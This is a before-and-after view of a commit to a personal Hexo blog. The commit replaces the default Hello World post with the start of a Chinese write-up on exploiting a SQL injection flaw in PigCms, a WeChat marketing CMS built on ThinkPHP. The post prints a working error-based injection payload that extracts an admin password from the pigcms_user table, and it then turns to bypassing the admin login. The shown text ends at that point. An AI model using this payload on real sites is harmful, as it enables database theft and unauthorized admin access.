

Before and after one commit to wh0amis/wh0amis.github.io, a plain HTML site: page 2018/05/25/hello-world/index.html in a window 1280 px wide. Shown: the whole page at 86% size, 1552 px wide, since content can reach past the window. After the commit the page ends 890 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours.

Commit message:
Site updated: 2018-05-25 18:07:33

```diff
--- a/2018/05/25/hello-world/index.html
+++ b/2018/05/25/hello-world/index.html
@@ -7,7 +7,7 @@
 
 
     <title>
-      Hello World | 拥雪待春色
+       | 拥雪待春色
     </title>
 
     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
@@ -16,17 +16,17 @@
 
 
 
-    <meta name="description" content="Welcome to Hexo! This is your very first post. Check documentation for more info. If you get any problems when using Hexo, you can find the answer in troubleshooting or you can ask me on GitHub. Quick">
+    <meta name="description" content="PigCms注入漏洞另类利用姿势###0x01 前言    PigCms（又称小猪CMS）是一个基于php+mysql的多用户微信营销源码程序，由合肥彼岸互联信息技术有限公司开发，是国内使用最多、功能最强大、性能最稳定的多用户微信营销系统平台源码,目前国内大多数微信营销平台都是pigcms或由pigcms二次开发而成。因某次测试遇到该CMS，遂对该CMS进行分析，发现网上存在相关漏洞审计报告。于是">
 <meta property="og:type" content="article">
-<meta property="og:title" content="Hello World | 拥雪待春色">
+<meta property="og:title" content=" | 拥雪待春色">
 <meta property="og:url" content="http://yoursite.com/2018/05/25/hello-world/index.html">
 <meta property="og:site_name" content="拥雪待春色">
-<meta property="og:description" content="Welcome to Hexo! This is your very first post. Check documentation for more info. If you get any problems when using Hexo, you can find the answer in troubleshooting or you can ask me on GitHub. Quick">
+<meta property="og:description" content="PigCms注入漏洞另类利用姿势###0x01 前言    PigCms（又称小猪CMS）是一个基于php+mysql的多用户微信营销源码程序，由合肥彼岸互联信息技术有限公司开发，是国内使用最多、功能最强大、性能最稳定的多用户微信营销系统平台源码,目前国内大多数微信营销平台都是pigcms或由pigcms二次开发而成。因某次测试遇到该CMS，遂对该CMS进行分析，发现网上存在相关漏洞审计报告。于是">
 <meta property="og:locale" content="default">
-<meta property="og:updated_time" content="2018-05-25T07:28:05.320Z">
+<meta property="og:updated_time" content="2018-05-25T10:01:18.152Z">
 <meta name="twitter:card" content="summary">
-<meta name="twitter:title" content="Hello World | 拥雪待春色">
-<meta name="twitter:description" content="Welcome to Hexo! This is your very first post. Check documentation for more info. If you get any problems when using Hexo, you can find the answer in troubleshooting or you can ask me on GitHub. Quick">
+<meta name="twitter:title" content=" | 拥雪待春色">
+<meta name="twitter:description" content="PigCms注入漏洞另类利用姿势###0x01 前言    PigCms（又称小猪CMS）是一个基于php+mysql的多用户微信营销源码程序，由合肥彼岸互联信息技术有限公司开发，是国内使用最多、功能最强大、性能最稳定的多用户微信营销系统平台源码,目前国内大多数微信营销平台都是pigcms或由pigcms二次开发而成。因某次测试遇到该CMS，遂对该CMS进行分析，发现网上存在相关漏洞审计报告。于是">
 
 
 
@@ -150,7 +150,7 @@ classes that you can use:
 
   <header class="post-header">
 
-    <h1 class="post-title">Hello World</h1>
+    <h1 class="post-title"></h1>
 
 
 
@@ -171,15 +171,11 @@ classes that you can use:
   </header>
 
   <section id="post-content" class="article-content post">
-    <p>Welcome to <a href="https://hexo.io/" target="_blank" rel="noopener">Hexo</a>! This is your very first post. Check <a href="https://hexo.io/docs/" target="_blank" rel="noopener">documentation</a> for more info. If you get any problems when using Hexo, you can find the answer in <a href="https://hexo.io/docs/troubleshooting.html" target="_blank" rel="noopener">troubleshooting</a> or you can ask me on <a href="https://github.com/hexojs/hexo/issues" target="_blank" rel="noopener">GitHub</a>.</p>
-<h2 id="Quick-Start"><a href="#Quick-Start" class="headerlink" title="Quick Start"></a>Quick Start</h2><h3 id="Create-a-new-post"><a href="#Create-a-new-post" class="headerlink" title="Create a new post"></a>Create a new post</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ hexo new <span class="string">"My New Post"</span></span><br></pre></td></tr></table></figure>
-<p>More info: <a href="https://hexo.io/docs/writing.html" target="_blank" rel="noopener">Writing</a></p>
-<h3 id="Run-server"><a href="#Run-server" class="headerlink" title="Run server"></a>Run server</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ hexo server</span><br></pre></td></tr></table></figure>
-<p>More info: <a href="https://hexo.io/docs/server.html" target="_blank" rel="noopener">Server</a></p>
-<h3 id="Generate-static-files"><a href="#Generate-static-files" class="headerlink" title="Generate static files"></a>Generate static files</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ hexo generate</span><br></pre></td></tr></table></figure>
-<p>More info: <a href="https://hexo.io/docs/generating.html" target="_blank" rel="noopener">Generating</a></p>
-<h3 id="Deploy-to-remote-sites"><a href="#Deploy-to-remote-sites" class="headerlink" title="Deploy to remote sites"></a>Deploy to remote sites</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ hexo deploy</span><br></pre></td></tr></table></figure>
-<p>More info: <a href="https://hexo.io/docs/deployment.html" target="_blank" rel="noopener">Deployment</a></p>
+    <h1 id="PigCms注入漏洞另类利用姿势"><a href="#PigCms注入漏洞另类利用姿势" class="headerlink" title="PigCms注入漏洞另类利用姿势"></a>PigCms注入漏洞另类利用姿势</h1><p>###0x01 前言<br>    PigCms（又称小猪CMS）是一个基于php+mysql的多用户微信营销源码程序，由合肥彼岸互联信息技术有限公司开发，是国内使用最多、功能最强大、性能最稳定的多用户微信营销系统平台源码,目前国内大多数微信营销平台都是pigcms或由pigcms二次开发而成。因某次测试遇到该CMS，遂对该CMS进行分析，发现网上存在相关漏洞审计报告。于是参考网上相关报告进行利用测试，本文记录了利用过程中遇到的一些坑和姿势。</p>
+<p>###0x02 SQL注入<br>    由于PigCms是基于ThinkPHP二次开发。所以存在ThinkPHP相关漏洞。根据漏洞描述。在登录处即可进行SQL注入。漏洞详情：<a href="https://www.secpulse.com/archives/42886.html" target="_blank" rel="noopener">https://www.secpulse.com/archives/42886.html</a></p>
+<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">EXP：</span><br><span class="line">username[0]=%3D'__test__') or (<span class="keyword">select</span> <span class="number">1</span> <span class="keyword">from</span> (<span class="keyword">select</span> <span class="keyword">count</span>(*),<span class="keyword">concat</span>((<span class="keyword">select</span> <span class="keyword">password</span> <span class="keyword">from</span> pigcms_user <span class="keyword">limit</span> <span class="number">0</span>,<span class="number">1</span>),<span class="keyword">floor</span>(<span class="keyword">rand</span>(<span class="number">0</span>)*<span class="number">2</span>))x <span class="keyword">from</span> information_schema.tables <span class="keyword">group</span> <span class="keyword">by</span> x)a) #<span class="keyword">between</span>&amp;username[<span class="number">1</span>]=freedomzz&amp;<span class="keyword">password</span>=<span class="number">123123</span>&amp;verifycode2=<span class="number">7218</span>&amp;__hash__=<span class="number">3e9</span>fde7441cc55bf46afe7f8361af205_3dd5ac82b216c5bf00b8207d99a7f76c</span><br></pre></td></tr></table></figure>
+<pre><code>但查询出来后的密码无法解密，有没有其他的方法绕过呢，答案当然是有的，由于任何参数均可以注入，所以可以再后台登录处采用联合查询的方式，绕过登录的判断。从而进入后台。先来看看后台代码是怎么判断的
+</code></pre><p>AdminAction.class.php</p>
 
   </section>
 
```
Also changed, not shown: archives/2018/05/index.html (+1 -1 lines), archives/2018/index.html (+1 -1 lines), archives/index.html (+1 -1 lines), index.html (+1 -1 lines).
